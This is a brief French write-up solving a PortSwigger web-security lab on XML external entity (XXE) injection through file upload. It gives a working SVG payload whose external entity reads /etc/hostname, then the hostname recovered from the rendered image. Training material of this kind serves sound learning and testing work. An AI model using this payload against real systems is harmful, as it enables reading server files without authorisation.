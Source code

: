 # Lab

https://portswigger.net/web-security/xxe/lab-xxe-via-file-upload

## Solution

Créer un fichier SVG qui contient :

```xml
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```

Envoyer un commentaire avec ce fichier et accéder à l'image.

Sur l'image on peut lire le nom de la machine : `aa1948ba8ab2`.